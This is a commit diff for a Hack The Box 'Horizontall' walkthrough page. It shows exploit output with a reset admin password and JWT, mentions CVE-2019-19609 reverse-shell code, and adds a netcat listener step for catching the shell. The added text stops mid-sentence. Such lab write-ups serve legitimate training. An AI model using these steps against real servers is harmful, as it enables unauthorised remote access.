

Before and after one commit to pages-themes/midnight, a Jekyll site: the page built from HTB/Horizontall.md, in a window 1280 px wide and 1400 px high, scrolled down 5478 px. Shown: the top 1348 px of the window at 83% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 6794 px from its top, so only the background shows below that.

Commit message:
Update Horizontall.md

````diff
--- a/HTB/Horizontall.md
+++ b/HTB/Horizontall.md
@@ -201,7 +201,7 @@ After downloading it, I make the file executable and I run the script with the c
 [+] Your new credentials are: admin:SuperStrongPassword1
 [+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjMwNzM2MzQwLCJleHAiOjE2MzMzMjgzNDB9.UiR8OMmTl31-u8kBO-MXWtzZulZA8bczLNEW9Q69TGs
 ```
-So now I can login to the site, I have a JSON Token, and I have a web shell. Normally I would see what I could enumerate from the site but I found another some <a href="https://github.com/dasithsv/CVE-2019-19609"> Github code </a> that utilizes my jwt to gain a reverse shell. The codes as:
+So now I can login to the site, I have a JSON Token, and I have a web shell. Normally I would see what I could enumerate from the site but I found another some <a href="https://github.com/dasithsv/CVE-2019-19609"> Github code </a> that utilizes my jwt to gain a reverse shell. The codes reads as:
 ```markdown
 #!/bin/python
 
@@ -237,3 +237,4 @@ if len(sys.argv) ==5:
 else:
     print('python3 exploit.py <rhost> <lhost> <jwt> <url>')
  ```
+ According to the code and documentation, I have to set up a listener on port 9001 before I run this so I open another terminal window and run `nc -nvlp 9001`. I copy the code into a `.py` file, make it executable, and run it with `
````
